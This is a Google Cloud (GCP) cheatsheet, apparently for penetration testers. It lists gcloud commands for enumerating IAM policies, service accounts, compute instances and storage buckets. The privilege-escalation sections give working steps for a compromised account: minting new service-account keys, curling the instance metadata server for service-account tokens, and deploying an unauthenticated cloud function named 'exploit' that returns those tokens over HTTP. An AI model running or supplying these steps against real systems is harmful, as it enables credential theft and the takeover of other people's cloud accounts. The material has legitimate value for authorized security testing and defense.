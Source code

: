 ## GCP cheatsheet
### General
- End users can authenticate at `myaccount.google.com`
- Admins use `admin.google.com`
- For projects, use `console.cloud.google.com`
### Basic actions
- Visit the following URL to check token validity
```
https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=TOKEN
```
- Authenticate with a SA key file
```
gcloud auth activate-service-account --key-file KEYFILE.json
```
- List current config
```
gcloud config list
```
- Set project in config
```
gcloud config set project PROJECTID
```
- List authenticated accounts
```
gcloud auth list
```
### Organization, project, and service account enumeration
- List accessible organizations
```
gcloud organizations list
```
- List a specific organization's IAM policies
```
gcloud organizations get-iam-policy ORGANIZATIONID
```
- List projects
```
gcloud projects list
```
- List a specific project's IAM policies
```
gcloud projects get-iam-policy PROJECTNUMBER
```
- List a specific project's service accounts
```
gcloud iam service-accounts list --project PROJECTID
```
- List a SA's list of key IDs (ten keys is the maximum an account can have)
```
gcloud iam service-accounts keys list --iam-account SERVICEACCOUNT
```
- Get current account's policy on the given SA
```
gcloud iam service-accounts get-iam-policy SERVICEACCOUNT
```
- List custom roles for a specific project
```
gcloud iam roles list --project PROJECTID
```
- Get a specific role's permissions
```
gcloud iam roles describe ROLENAME --project PROJECTID
```
- Get a specific account's permissions
```
gcloud projects get-iam-policy PROJECT --flatten="bindings[].members" --format='table(bindings.role)' --filter="bindings.members:EMAIL"
```

### Computer instance enumeration
- List compute instances
```
gcloud compute instances list
```
- Get a specific compute instance's description
```
gcloud compute instances describe INSTANCE
```
- Get current account's policy on a given compute instance
```
gcloud compute instances get-iam-policy INSTANCE --zone ZONE
```
- List firewall rules
```
gcloud compute firewall-rules list
```
- Get a specific firewall rule description
```
gcloud compute firewall-rules describe RULENAME
```
- List forwarding rules
```
gcloud compute forwarding-rules list
```
- List GKE clusters
```
gcloud container clusters list
```

### Storage and bucket enumeration
- List storages
```
gcloud storage ls
```
- List the contents of a specific bucket
```
gcloud storage ls BUCKETNAME
```

### Privilege escalation via SA key creation
- If the compromised account has `iam.serviceAccountKeyAdmin` permissions on an SA then you can create keys for the given SA
- Create a new key for the SA (will be saved to KEYNAME.json locally)
```
gcloud iam service-accounts keys create KEYNAME.json --iam-account SERVICEACCOUNT
```

### Privilege escalation via compute admin login
- If the compromised account has `compute.osAdminLogin` permissions then you have arbitrary access to any compute instance (similar to AWS SSM)
- Get into a compute instance with SSH
```
gcloud compute ssh --zone ZONE COMPUTEINSTANCE
```
- Enumrate the scope of the compute instance's SA
```
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/SERVICEACCOUNT/scopes
```
- Scope https://www.googleapis.com/auth/cloud-platform is editor permissions
- Get compute instance's SA token
```
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/SERVICEACCOUNT/token
```
- Save the token to a file and use it to enumerate as usual
```
gcloud projects list --access-token-file TOKENFILE
```

### Privilege escalation via cloud functions
- If the compromised account has editor permissions or the `iam.serviceAccounts.actAs` and `cloudfunctions.functions.create` permissions then you can escalate to owner or any other high privilege role
- Save the following code as `main.py`
```
import subprocess
import random
import io
import json
import string
import os
from urllib.request import Request, urlopen
from base64 import b64decode, b64encode

def exploit(request):
    req = Request('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token')
    req.add_header('Metadata-Flavor', 'Google')
    content = urlopen(req).read()
    token = json.loads(content)
    req = Request('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/identity?audience=32555940559.apps.googleusercontent.com')
    req.add_header('Metadata-Flavor', 'Google')
    content = urlopen(req).read()
    token["identity"] = content.decode('utf-8')
    return json.dumps(token)
```
- Create the function (use with `--access-token-file` if you only have an access token)
```
gcloud functions deploy FUNCTIONAME --timeout 539 --trigger-http --allow-unauthenticated --source PATH/TO/main.py --runtime python37 --entry-point exploit --service-account TARGETSA
```
- Run the function (use with `--access-token-file` if you only have an access token)
```
gcloud functions call FUNCTIONNAME
```
- Run the function via HTTP
```
curl FUNCTIONURL
```
